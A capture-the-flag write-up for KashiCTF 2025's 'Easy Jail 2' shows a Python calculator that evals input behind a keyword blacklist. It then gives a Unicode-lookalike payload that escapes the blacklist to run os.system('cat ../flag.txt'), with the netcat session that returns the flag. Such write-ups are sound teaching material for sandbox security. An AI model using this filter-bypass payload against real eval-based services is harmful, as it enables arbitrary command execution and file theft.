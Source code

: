 ```yaml
---
title: "Easy Jail 2"
description: "I made a completely secure calculator this time."
pubDate: 2025-02-27
ctf: "KashiCTF 2025"
category: "misc"
author: "sealldev"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/kashictf2025#easy-jail-2)

```python
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

BLACKLIST = ["open", "input", "eval", "exec", "import", "getattr", "sh", "builtins", "global"]
def calc(op):
	try : 	
		res = eval(op)
	except Exception as e:
		print(e)
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		if any(bad in inp for bad in BLACKLIST) :
			print("Are you tying to hack me !!!!!")
		else : 
			calc(inp)

if __name__ == '__main__':
	main()
```

Looking at the jail (compared to the previous) restricts words (such as import), our previous solution (`__import__('os').system('cat ../flag.txt')`) no longer worked due to `import` being a blocked word.

Looking at the [PyJail material online](https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass) we can use a unicode bypass.

I make the following payload: `__𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')`

Which then returns the flag from the remote:
```
$ nc kashictf.iitbhucybersec.in 56261
           _            _       _             
          | |          | |     | |            
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ 
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |   
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   
>> __𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')
KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}
```

Flag: `KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}`